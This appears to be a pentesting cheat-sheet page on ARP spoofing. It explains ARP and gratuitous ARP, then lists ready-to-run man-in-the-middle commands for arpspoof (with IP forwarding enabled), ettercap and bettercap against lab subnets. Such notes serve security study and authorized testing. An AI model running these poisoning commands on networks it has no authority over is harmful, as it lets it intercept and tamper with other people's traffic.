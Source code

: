# 🟨 ARP Spoofing

## <mark style="color:red;">ARP</mark>

• An ARP request message should be placed in a frame and broadcast to all computers on the network

• Each computer receives the request and examines the IP address

• The computer mentioned in the request sends a response; all other computers process and discard the request without sending a response

![](<../../.gitbook/assets/image (293) (1) (1) (1) (1).png>)

## <mark style="color:red;">Gratuitous ARP</mark>

• Gratuitous ARP is used by hosts to “announce” their IP address to the local network and avoid duplicate IP addresses on the network; routers and other network hardware may use cache information gained from gratuitous ARPs

• Gratuitous ARP is a broadcast packet (like an ARP request)

![](<../../.gitbook/assets/image (277) (1) (1).png>)

HOST W: Hey everyone I’m host W and my IP Address is 1.2.3.4 and my MAC address is 12:34:56:78:9A:BC

## <mark style="color:red;">ARP Spoofing</mark>

### <mark style="color:orange;">arpspoof</mark>

```
arpspoof -t [target] -r [router]
```

example:

#### 1. Enable ip forwarding first

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### 2. tell 172.16.5.1 that if they need to communicate with 172.16.5.23 they must pass from the attacker system

```
arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.23 
```

#### now, in a separate terminal

#### 3. tell 172.16.5.23 that if the need to communicate with 172.16.5.1 they must pass from the pentester system

```
arpspoof -i tap0 -t 172.16.5.23 -r 172.16.5.1
```

### <mark style="color:orange;">Ettercap</mark>

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

### <mark style="color:orange;">Bettercap</mark>

#### Refer to [Bettercap cheat sheet](arp-spoofing.md#bettercap) for full documentation.

specify a number of IP addresses, comma=separated

```
set arp.spoof.targets IPs
```

turn ARP spoof on/off

```
arp.spoof on / off
```

#### When the arp.spoof module is started, Bettercap will automatically configure the OS features for the MitM attack (such as turning on IP forwarding on Linux systems)
